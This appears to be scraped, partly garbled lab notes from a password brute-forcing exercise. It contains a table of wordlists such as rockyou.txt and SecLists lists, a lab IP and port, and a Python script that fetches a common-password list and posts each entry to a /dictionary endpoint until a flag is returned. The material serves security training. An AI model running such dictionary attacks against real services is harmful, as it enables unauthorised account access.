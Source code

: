 - Commonly used, weak passwords (e.g., "password123," "qwerty")
- The company name and variations thereof
- Names of employees or departments
- Industry-specific jargon
  
  ???

|                                             |                                                                                              |                                                    |                                                                                                                                  |
| ------------------------------------------- | -------------------------------------------------------------------------------------------- | -------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| `rockyou.txt`                               | A popular password wordlist containing millions of passwords leaked from the RockYou breach. | Commonly used for password brute force attacks.    | [RockYou breach dataset](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)                      |
| `top-usernames-shortlist.txt`               | A concise list of the most common usernames.                                                 | Suitable for quick brute force username attempts.  | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)                         |
| `xato-net-10-million-usernames.txt`         | A more extensive list of 10 million usernames.                                               | Used for thorough username brute forcing.          | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)                   |
| `2023-200_most_used_passwords.txt`          | A list of the 200 most commonly used passwords as of 2023.                                   | Effective for targeting commonly reused passwords. | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) |
| `Default-Credentials/default-passwords.txt` |                                                                                              |                                                    |                                                                                                                                  |

creates a route (`/dictionary`) that handles POST requests. It expects a `password` parameter in the request's form data. Upon receiving a request, it compares the submitted password against the expected value. If there's a match, it responds with a JSON object containing a success message and the flag. Otherwise, it returns an error message with a 401 status code (Unauthorized).

94.237.54.176

52027

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
****
```
